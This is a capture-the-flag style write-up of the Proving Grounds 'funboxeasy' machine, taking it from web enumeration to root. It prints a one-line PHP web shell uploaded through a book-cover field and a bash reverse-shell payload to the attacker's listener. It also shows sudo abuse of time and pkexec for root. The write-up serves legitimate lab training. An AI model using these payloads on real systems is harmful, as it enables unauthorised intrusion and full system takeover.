






# funboxeasy: 192.168.220.111

## Hints

- Initial foothold is all about doing web enumeration long enough to find a upload for RCE
- Pivoting from `www-data` to an actual user can be done with manual review of the file system
- Privesc to root is all about programs you can run with elevated privilege

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

## 80: Recon

A default Ubuntu + Apache landing screen were found on port 80.



Not very interesting... but the default Apache landing page always makes me thing that there might be something else , just need to find it. Fired up `gobuster` to try find something, and got some very interesting results.

```none
gobuster dir -u 192.168.220.111 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -o gobuster_80_raftmedium.log
...
/profile.php          (Status: 302) [Size: 7247]
/index.php            (Status: 200) [Size: 3468]
/header.php           (Status: 200) [Size: 1666]
/logout.php           (Status: 200) [Size: 75]
/robots.txt           (Status: 200) [Size: 14]
/registration.php     (Status: 200) [Size: 9409]
/checklogin.php       (Status: 200) [Size: 0]
/forgot-password.php  (Status: 200) [Size: 2763]
```

Immediately found some PHP pages using some common names (e.g., index, profile, logout). Browsing to the `index.php` site showed that there was a web app with the option to sign in.



Had a poke around all the PHP files returned by `gobuster`, looking for anything interesting. Was able to create a new account using the `registration.php` site and subsequently log into the newly created account.



The dashboard provided a few new features, the ability to create a ticket, view tickets, change password etc. Intercepted some requests in Burp, but nothing looked very interesting - well there was not enough information to make it interesting or the ability to upload files. I started expanding my search for more potentially hidden PHP files, as there were some results returned by `gobuster` that were not hyperlinked in the actual site that I was browsing.

```none
gobuster dir -x php -u 192.168.220.111 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -o gobuster_80_raftmedium_php.log
```

The actual useful findings from this search were very lucky... instead of using Raft medium words, I used Raft medium directories and specified the PHP file extension. This resulted in finding the `admin`, `store` and `secret` paths that did not turn up in the first search. To save time and space, here is a summary of each endpoint:

- `admin`: Login for the CRM that we previously poked at
- `store`: Looks like a new online store web app
- `secret`: A static file with an Oscar Wilde quote

I looked at the CRM admin page quickly, but could get any default credentials to work and couldn't find anything that looked like a potential foothold. Out of the three discoveries, the `store` path, aka the Bookstore, looks the most promising. 



This was another PHP web application. Overall, the application appeared more robust (well authored) compared to the first CRM app. I had a look around each page trying to understand what the functionality of the site was, and how it worked. While gathering some of this info, I notice an "Admin Login" link (http://192.168.220.111/store/admin.php) at the bottom of the page. Tried the usual credentials, and was surprised that I was able to login with `admin:admin`!

After authenticating, we got redirected to the "Add new book" page. I couldn't find an option to add a book, but there was an option to "Edit" an existing book. What was more interesting, was that you could add an image (cover) for the book.


When trying to upload an image, I kept getting a "Can't update data You have an error in your SQL syntax" error, but when I checked the image directory, my file was uploaded anyway - not sure what the problem was here. FYI - I knew where to check for file uploads by examining books on the web application (not in the admin panel) and inspecting the image to see the path it was stored. This was pretty easy, as Apache had directory listing enabled! You will be able to see the PHP file I uploaded appears in the `store/bootstrap/img` folder.



The `cmd.php` file is quite simple, it only has the following code:

```php
<?php system($_REQUEST["cmd"]) ?>
```

Luckily for us, the Apache/PHP configuration was pretty weak. We could upload any file - not just images. And PHP was configured in a way that we could execute potentially dangerous functions - such as `system`. In this example, the `cmd.php` file allows us to supply a parameter in the HTTP request. In the screenshot below, the `whoami` command is injected and it is evident that the Apache web server is running as the `www-data` user.



From here, we can use this command injection and try to get a shell on the system. I always find the easiest way to do this is intercepting the request in Burp and using Repeater. The main reason is to use the URL encode feature - which is much easier than trying to achieve this manually. This is the payload I used:

```
cmd=bash -c 'bash -i >& /dev/tcp/192.168.45.168/9001 0>&1'
```

Before executing this, opened a port to listen to incoming connections on my Kali machine using netcat, and got a connection!

```
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.45.168] from (UNKNOWN) [192.168.220.111] 46312
bash: cannot set terminal process group (993): Inappropriate ioctl for device
bash: no job control in this shell
www-data@funbox3:/var/www/html/store/bootstrap/img$ whoami
whoami
www-data
```

## Privesc: `www-data` to `tony`

Started by performing manual enumeration of the system as the `www-data` user. Did a lot of poking around the web-related files and database - as I thought there would be credential reuse or something similar. There were two interesting files in the `/var/www/html/store/database` folder, a readme and SQL dump. The readme file has some info about the project and the `www_project.sql` file has a MySQL database dump. In this, we can see the user configuration, which also has `admin:admin` for a username password for the database:

```
INSERT INTO `admin` (`name`, `pass`) VALUES
('admin', 'd033e22ae348aeb5660fc2140aec35850c4da997');
```

But I didn't get much further, because after checking what users were on the system, pivoting to the next user was done! Looking at the users, by listing the `/home` directory showed only one user, `tony`. And looking quickly at their files gave the game away.

```
www-data@funbox3:/home/tony$ cat password.txt
cat password.txt
ssh: yxcvbnmYYY
gym/admin: asdfghjklXXX
/store: admin@admin.com admin
```

This allowed access to the user `tony` using the password saved in the text file by logging in using SSH.

## Privesc: `tony` to `root`

I ran linpeas on the target as the `tony` user, but probably didn't need the tool. There was a pretty easy privesc using the (terrible) `sudo` configuration. Tony could run a bunch of commands as `root`.

```
User tony may run the following commands on funbox3:
    (root) NOPASSWD: /usr/bin/yelp
    (root) NOPASSWD: /usr/bin/dmf
    (root) NOPASSWD: /usr/bin/whois
    (root) NOPASSWD: /usr/bin/rlogin
    (root) NOPASSWD: /usr/bin/pkexec
    (root) NOPASSWD: /usr/bin/mtr
    (root) NOPASSWD: /usr/bin/finger
    (root) NOPASSWD: /usr/bin/time
    (root) NOPASSWD: /usr/bin/cancel
    (root) NOPASSWD: /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
```

Think I got lucky, as the first one I picked was easy. Using GTFOBins, the privesc to root was simple:

```
tony@funbox3:/tmp$ sudo /usr/bin/time /bin/bash
root@funbox3:/tmp# whoami
root
```

Did a little more poking around, and could have done the same thing with `pkexec` too.

```
tony@funbox3:/tmp$ sudo pkexec /bin/bash
root@funbox3:~# whoami
root
```

Done!

## Lessons Learned

- Proving Grounds machines have a strange flags:
    - User flag is in a file named: `local.txt`
    - Root flag is in a file named: `root.flag`
